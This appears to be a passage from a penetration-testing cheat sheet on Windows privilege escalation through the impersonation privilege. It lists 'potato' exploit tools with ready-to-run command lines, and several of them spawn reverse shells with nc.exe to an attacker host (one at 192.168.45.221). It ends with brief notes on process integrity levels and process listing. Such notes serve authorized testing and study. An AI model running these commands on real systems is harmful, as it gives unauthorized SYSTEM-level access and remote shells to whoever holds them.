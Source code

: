 
offers the possibility to leverage a token with another security context. Meaning, a user with this privilege can perform operations in the security context of another user account under the right circumstances. By default, Windows assigns this privilege to members of the local _Administrators_ group

tools: 
- PrintSpoofer
```
.\printspoofer64.exe -i -c cmd
.\PrintSpoofer64.exe -c "nc.exe <attacket ip> <attacker port> -e powershell"
```
- RottenPotato
- GodPotato
```
# check .NET version
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"

# fit the right version
.\GodPotato-NET<version>.exe -cmd ".\nc.exe <attacker ip> <attacker port> -e cmd"
```
- SweetPotato
```
.\SweetPotato.exe -p sys.exe
```
- JuicyPotato
```
.\JuicyPotato.exe -l 9999 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c .\nc.exe 192.168.45.221 9999 -e powershell"
```
- metasploit - getsystem
- RoguePotato
```
.\RoguePotato.exe -r <kali_ip> -e ".\nc.exe <attacket ip> <attacker port> -e powershell" -l <listen_port>
```
#### levels of running process

```
- System: SYSTEM (kernel, ...)
- High: Elevated users
- Medium: Standard users
- Low: Very restricted rights often used in sandboxed[^privesc_win_sandbox] processes or for directories storing temporary data
- Untrusted: Lowest integrity level with extremely limited access rights for processes or objects that pose the most potential risk
```

list all process
```
# powershell
Get-Process
Get-Process <process_name> -FileVersionInfo

# cmd
wmic process list full
```
